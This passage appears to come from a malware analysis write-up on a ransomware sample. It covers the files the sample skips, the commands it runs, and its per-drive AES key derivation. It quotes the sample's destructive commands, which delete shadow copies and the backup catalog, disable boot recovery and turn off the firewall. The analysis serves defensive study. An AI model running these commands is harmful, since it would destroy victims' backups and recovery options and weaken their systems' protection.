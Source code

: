 
3. #### Skipped files (not encrypted, probably):
   ```
   info.hta
   info.txt
   boot.ini
   bootfont.bin
   ntldr
   ntdetect.com
   io.sys
   1saas.exe
   ```

# Executed Commands:

Several commands gets executed in  <span style="background-color: #707070">sub_4030E4</span> before encrypting the files using  <span style="background-color: #707070">CreateProcessW</span>:

1.  Delete all Volumes Shadow Copies (volumes backup or snapshot)

   ```
   vssadmin delete shadows /all /quiet
   wmic shadowcopy delete
   ```

2. Disable windows recovery mode

   ```
   bcdedit /set {default} bootstatuspolicy ignoreallfailures
   bcdedit /set {default} recoveryenabled no
   ```

3. Delete the backup catalog

   ```
   wbadmin delete catalog -quiet
   ```

4. Turn off the firewall and exit

   ```
   netsh advfirewall set currentprofile state off
   netsh firewall set opmode mode=disable
   exit
   ```

# The Encryption Process:

First the ransomware gets the logical drives then gets the volume serial number of the drive (32 bit value) and passes that value to the function  <span style="background-color: #707070">get_random_aes_key</span> which uses that serial number to create a unique AES key for that drive.

After that the key is passed to  <span style="background-color: #707070">to_encryption_thread</span> function which starts a new thread with the generated key as a ThreadParameter.
